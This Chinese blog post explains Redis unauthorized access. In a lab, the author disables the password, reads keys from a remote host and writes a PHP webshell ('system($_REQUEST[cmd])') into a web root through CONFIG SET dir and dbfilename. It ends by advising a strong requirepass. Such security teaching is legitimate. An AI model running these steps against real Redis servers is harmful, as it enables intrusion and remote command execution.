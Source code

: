 ```yaml
---
layout: post
title:  "Redis未授权访问简介"
date:   2018-03-16
categories: Program
permalink: /archivers/2018-03-16/4
description: "本文介绍一下Redis未授权访问简介"
---
```

本文介绍一下Redis未授权访问简介
<!--more-->

>Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。从2010年3月15日起，Redis的开发工作由VMware主持。从2013年5月开始，Redis的开发由Pivotal赞助。

>redis是一个key-value存储系统。和Memcached类似，它支持存储的value类型相对更多，包括string(字符串)、list(链表)、set(集合)、zset(sorted set –有序集合)和hash（哈希类型）。这些数据类型都支持push/pop、add/remove及取交集并集和差集及更丰富的操作，而且这些操作都是原子性的。在此基础上，redis支持各种不同方式的排序。与memcached一样，为了保证效率，数据都是缓存在内存中。区别的是redis会周期性的把更新的数据写入磁盘或者把修改操作写入追加的记录文件，并且在此基础上实现了master-slave(主从)同步。

之前看SRC刷过Redis未授权访问的漏洞

![redis_0x1-2.png](http://upload-images.jianshu.io/upload_images/3150364-323afe041674576d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

那么下面我来揭开它的神秘面纱！

首先我下载了安装包。

![redis_0x2.png](http://upload-images.jianshu.io/upload_images/3150364-3c97530c544d98e1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

[ — 安装过程 自行百度 –]

安装好以后，我们启动redis服务：
```
/usr/share/redis/bin/redis-server /etc/redis.conf
vim /etc/redis.conf
```
在181行左右 我先注释访问密码。

然后启动redis-server
```
[root@localhost 桌面]# ps -A | grep redis
 3931 ?        00:00:00 redis-server
```
首先我先用客户端连接服务器：
```
[root@localhost 桌面]# redis-cli 
redis 127.0.0.1:6379> keys *
1) "about"
2) "user:id1"
3) "user:id2"
4) "admin"
5) "str"
redis 127.0.0.1:6379> get str
"ldjskjdsahdsaa"
redis 127.0.0.1:6379> 
```
可以看到能直接操作数据库。

下面我用另外一台服务器做安全测试
```
[root@localhost 桌面]# redis-cli -h 10.10.3.215
redis 10.10.3.215:6379> keys *
1) "about"
2) "user:id1"
3) "user:id2"
4) "admin"
5) "str"
redis 10.10.3.215:6379> 
```
发现也是可以直接操作数据库

根据redis语句我们写webshell….

前提是知道绝对路径，当然也可以用语句判断。
```
redis 10.10.3.215:6379> CONFIG SET dir /var/wwwroot/
(error) ERR Changing directory: No such file or directory
```
可以发现不存在，那么就可以猜解目录了。

下面我演示写webshell
```
redis 10.10.3.215:6379> CONFIG SET dir /usr/share/apache/htdocs/ #这里是站点绝对路径
OK
redis 10.10.3.215:6379> set shell "<?php echo system($_REQUEST[cmd])?>"
OK
redis 10.10.3.215:6379> CONFIG SET dbfilename shell.php
OK
redis 10.10.3.215:6379> save  #将内存中的数据保存到dbfilename中
OK
redis 10.10.3.215:6379> 
```
这样就getshell了

![redis_0x4.png](http://upload-images.jianshu.io/upload_images/3150364-78f6ce3f2a7e5357.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

>下面看看这个未授权原因
>在刚才的配置文件中，有一个选项
>设置客户端连接后进行任何其他指定前需要使用的密码。
>警告：因为redis速度相当快，所以在一台比较好的服务器下，一个外部的用户可以在一秒钟进行150K次的密码尝试，这意味着你需要指定非常非常强大的密码来防止暴力破解
>requirepass [密码]
>所以必须设置密码。
>出现这类漏洞就是 配置不得当导致控制系统 执行任意代码  再深入还可以威胁主从服务器 及其他的数据库服务器。
